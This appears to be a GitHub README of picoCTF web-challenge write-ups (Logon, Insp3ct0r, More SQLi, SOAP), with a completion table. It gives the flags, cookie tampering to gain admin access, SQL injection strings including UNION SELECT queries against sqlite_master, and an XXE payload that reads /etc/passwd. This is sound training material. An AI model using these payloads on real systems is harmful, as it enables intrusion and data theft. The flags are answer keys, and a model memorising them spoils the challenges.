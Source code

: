 | Category          | Challenges                                   | Status          |
|-|-|-|
| Web Exploitation           | 1. SOAP                                      | ![Done](https://img.shields.io/badge/Status-Done-brightgreen) |
|                             | 2. Cookies                                  | ![Done](https://img.shields.io/badge/Status-Done-brightgreen) |
|                             | 3. GET aHEAD                                | ![Not Done](https://img.shields.io/badge/Status-Not_Done-red)|
|                             | 4. Logon                                    | ![Done](https://img.shields.io/badge/Status-Done-brightgreen) |
|                             | 5. Insp3ct0r                                | ![Done](https://img.shields.io/badge/Status-Done-brightgreen) |
|                             | 6. Web Gauntlet                             | ![Not Done](https://img.shields.io/badge/Status-Not_Done-red)|
|                             | 7. Who are you?                             | ![Not Done](https://img.shields.io/badge/Status-Not_Done-red)|
|                             | 8. IntroToBurp                              | ![Not Done](https://img.shields.io/badge/Status-Not_Done-red) |
|                             | 9. More SQLi                                | ![Done](https://img.shields.io/badge/Status-Done-brightgreen) |
---

# Logon


**Flag**: `picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}`

## Steps to Extract the Flag
1. Attempted to log in using the credentials `joe:joe` and clicked the **Sign In** button.
2. Successfully logged in, but it wasn't clear if I would be able to see the flag right away.

- Explored the **Developer Tools** to investigate further, specifically checking the **Applications > Cookies** section.
- Found a cookie named `admin` with a value set to `false`.
- Changed the value of the `admin` cookie to `true`, then refreshed the page.

After refreshing, the flag appeared

---

# Inspect3ctor

Flag: `picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?2e7b23e3}`

## Steps to Extract the Flag

Upon inspecting the page source using `Ctrl + Shift + U` or `Inspect Element`, we find the flag in three parts:

- In the HTML: `<!-- Html is neat. Anyways have 1/3 of the flag: picoCTF{tru3_d3`
- In the JavaScript: `/* Javascript sure is neat. Anyways part 3/3 of the flag: _lucky?2e7b23e3} */`
- In the CSS: `/* You need CSS to make pretty pages. Here's part 2/3 of the flag: t3ct1ve_0r_ju5t */`


---


# More SQLi: Name

Flag: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}`

## Steps to Extract the Flag

Step 1: Bypass Authentication  
' OR 1=1 --  
This forces the SQL query to always return true, allowing access.

Step 2: Enumerate Table Names  
123' UNION SELECT name, sql, null FROM sqlite_master;--  
This revealed the existence of a table named `more_table`, which contains the flag.

Step 3: Extract the Flag  
123' UNION SELECT id, flag, null FROM more_table;--  
This displayed the flag stored in the `flag` column.

---

# Challenge: SOAP

**Flag:** ` picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e} `

## How you approached the challenge:

- We are tasked with finding the hidden file in /etc/passwd. A hint is given pointing to `XML external entity Injection`, also known as XXE attack.
- The only interactive elements on the website are 3 buttons ` Details `, we can normally exploite XXE vulnerability to  retrieve the /etc/passwd file by submitting the following XXE payload:
- Go to Dev Tools > Network Tab, I clicked on the first "Details" button
- Send a new request by adding a new XXE attack payload in the body and click on the response to get the flag
 
 ```
  <!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>

 ```

- Explanation of payload:
  1. <!DOCTYPE> allows us to define an external entity, in this case `&example`, foo is placeholder
  2. `[<!ENTITY example SYSTEM "/etc/passwd"> ]>`, gives example as the contents inside /etc/passwd
  3. The XXE payload defines an external entity, a placeholder `&example`, whose value is the contents of the /etc/passwd file. When the XML is read by the             program, it may automatically replace `&example`, with the actual data from that file. 
![image](https://github.com/user-attachments/assets/6a3dee48-850f-43dd-b887-30536dce69e8)

